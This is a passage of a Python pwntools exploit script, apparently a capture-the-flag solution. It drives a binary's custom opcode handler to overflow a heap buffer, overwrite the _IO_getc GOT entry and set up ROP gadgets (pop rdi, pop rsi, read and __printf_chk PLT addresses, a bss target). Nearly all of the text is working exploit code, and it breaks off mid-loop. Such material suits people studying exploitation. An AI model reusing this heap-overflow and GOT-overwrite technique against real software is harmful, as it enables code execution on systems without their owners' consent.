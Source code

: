 ```py
    gdb.attach(s, gdbscript=gs)
    pause()

# malloc or free
def case_b(v52_t, v54_t):
    pay = b"\x0B"
    pay += p32(v52_t)
    pay += p32(v54_t)
    return pay

# overflow
def case_e(v25_t):
    pay = b"\x0E"
    pay += p32(v25_t)
    return pay

# set chunk index
def case_c(v41_t, v43_t):
    pay = b"\x0C"
    pay += p32(v41_t)
    pay += p32(v43_t)
    return pay

def case_d():
    pay = b"\x0d"
    return pay

def case_f4():
    pay = b"\xF4"
    return pay

v52_t = 0x10
v54_t = 0x10
v25_t = 0x0
one_idx = 0x100
v41_t = 1
v43_t = 1 # index
sleep_got = e.got['_IO_getc'] - 0x11
sleep_one = 0x5622
gadget = 0x400CC8
prdi = 0x0000000000400cd8
prsi = 0x000000000040111f
stdout = 0x602100
__printf_chk_plt = 0x400880
read_plt = 0x400840
bss = 0x602500

# db(s)

pay = case_b(v52_t, v54_t)
pay += case_e(v25_t) * int(0x400/4)
pay += case_e(int(0x408/4))
pay += case_e(sleep_got & 0xFFFFFFFF)
pay += case_e((sleep_got >> 32) & 0xFFFFFFFF)
for _ in range(5):
    pay += case_e(0)
for b in bytearray(p64(gadget))[::-1]:
    pay += case_e(b)
for _ in range(8):
    pay += case_c(v41_t, v43_t)
    pay += case_d()
    v43_t += 1
for _ in range(7):
```